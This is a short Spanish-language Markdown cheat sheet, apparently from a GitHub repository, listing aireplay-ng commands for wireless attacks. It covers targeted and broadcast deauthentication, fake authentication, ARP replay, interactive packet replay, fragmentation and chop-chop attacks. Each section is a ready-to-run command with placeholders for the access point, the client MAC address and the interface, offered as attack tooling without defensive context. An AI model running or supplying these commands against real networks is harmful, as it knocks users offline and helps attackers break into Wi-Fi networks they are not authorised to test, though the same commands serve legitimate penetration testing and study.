 # Aireplay-ng Cheat Sheet

#### Deautenticación dirigida
```
aireplay-ng -0 10 -a <BSSID-AP> -c <CLIENT-MAC> <INTERFACE>
```

#### Deautenticación global
```
aireplay-ng -0 0 -e <ESSID-AP> -c FF:FF:FF:FF:FF:FF <INTERFACE>

ó

aireplay-ng -0 0 -e <ESSID-AP> <INTERFACE>

ó

aireplay-ng -0 0 -a <BSSID-AP> <INTERFACE>
```

#### Fake Authentication Attack
```
aireplay-ng -1 0 -e <ESSID-AP> -a <BSSID-AP> -h <YOUR-MAC> <INTERFACE> 
```

#### ARP Replay Attack
```
aireplay-ng -3 -b <BSSID-AP> -h <YOUR_MAC> <INTERFACE>
```

#### Interactive Packet Replay Attack
```
aireplay-ng -2 -b <BSSID-AP> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 <INTERFACE>

ó

aireplay-ng -2 -r replay_src-<FILE_NAME>.cap <INTERFACE>
```

#### Interactive Packet Replay Attack with the forge ARP packet
```
aireplay-ng -2 -r <ARP_PACKET_NAME> <INTERFACE>
```

#### Fragmentation Attack
```
aireplay-ng -5 -b <BSSID-AP> -h <YOUR_MAC> <INTERFACE>
```

#### Chop chop Attack
```
aireplay-ng -4 -b <BSSID-AP> -h <YOUR_MAC> <INTERFACE>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)